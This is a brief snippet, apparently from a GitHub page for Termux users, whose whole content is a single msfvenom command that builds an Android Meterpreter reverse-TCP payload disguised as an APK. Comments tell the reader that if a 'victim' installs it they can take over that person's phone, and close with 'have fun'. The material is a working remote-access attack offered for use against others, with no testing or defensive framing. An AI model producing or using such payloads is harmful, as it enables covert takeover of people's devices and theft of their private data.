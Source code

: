 # code for making pay load in termux
msfvenom -p android/meterpreter/reverse_tcp LHOST=your ipadress LPORT=4444 R > /sdcard/payload.apk
#use this to make payload 
#if the victim install in you can do metasploit attack to his android
#have fun
